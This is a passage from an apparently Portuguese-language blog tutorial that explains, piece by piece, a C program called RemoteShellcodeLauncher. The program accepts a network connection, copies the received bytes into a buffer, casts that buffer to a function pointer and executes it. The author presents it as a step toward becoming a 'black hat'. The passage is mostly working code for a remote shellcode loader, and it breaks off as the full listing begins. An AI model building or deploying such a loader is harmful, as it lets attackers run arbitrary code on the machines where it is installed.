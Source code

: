 		perror("accept");
		exit(-1);
	}

{% endhighlight  %}
<p> olhe que estamos usando a função perror é melhor pra tratar erro do que ficar dando printf.</p>
{% highlight c++ %}
data_len = shellcode_len = 0;

	do
	{
		data_len = recv(new, data, MAX_DATA, 0);

		if(data_len)
		{
			memcpy(&shellcode[shellcode_len], data, data_len);
			shellcode_len += data_len;
			if (shellcode_len > MAX_SHELLCODE_LEN)
			{
				printf("Received shellcode length exceeds MAX_SHELLCODE_LEN: exiting!\n");
				exit(-1);
			}

		}
{% endhighlight  %}
<p>Ai também é muito simples, entra em um do-while, a função recv() que é do header  <a>sys/socket.h</a>, do ingles Receiving Data, o nome já diz ela fica esperando os seguintes parâmetros  recv (int socket, void *buffer, size_t size, int flags),  função deve receber uma mensagem de um soquete de conexão de modo ou de modo de conexão. É normalmente usado com sockets conectados porque não permite que o aplicativo para recuperar o endereço de origem de dados recebidos. Após a conclusão, recv () deve retornar o comprimento da mensagem em bytes. Se nenhuma mensagem estiver disponível para ser recebido e os pares tem realizado um desligamento ordenado, recv () deve retornar 0. Caso contrário, -1 será devolvido e errno definida para indicar o erro. logo em seguida vem coisa básico de C memcpy explicando vai memcpy (destino, origem, sizeof (destino)); em outras palavras eu copio o send() enviado pelo cliente para a variável shellcode, e comparo o tamanho do shellcode é maior que nossa variável tamanho máximo, se for maior eu sair fora do programa, é um simples tratamento  há o video vou colocar logo em baixo não se preocupe. vamos continuar  </p>
{% highlight c++ %}
}while(data_len);


	close(new);
	close(sock);

	if(shellcode_len)
	{

		printf("Shellcode size: %d\n", (int)strlen(shellcode));
		printf("Executing ...\n");
		fptr = (int(*)())shellcode;
		(int)(*fptr)();

	}

	return 0;		
}
{% endhighlight  %}
<p>Agora se a variável data_len tiver algum dentor dela for diferente de 0, vou fechar os socket's já que não vamos usa-lo o resto agora é simples, tenho se tiver alguma coisa na variável do tamanho do shellcode, ai é só criar um ponteiro uma locação na memoria e depois direciono o nosso shellcode pro mesmo por isso definir int (*fptr) o asterico indica uma criação de um ponteiro, acho que você já sabia disso então isso é tudo pessoal.:D agora ficou bem explicado acho que fosse explicar isso tudo no video ficaria uma bosta 50 min, se eu fazer mais video vou deixa-lo bem curto e no artigo eu explico melhor agora sim, em muleque(a) ta virando black hat em C, falei que dava pra fazer muita coisa usando socket. até o próximo. fique com o código completo:</p>
{% highlight c++ %}
/*
  RemoteShellcodeLauncher.c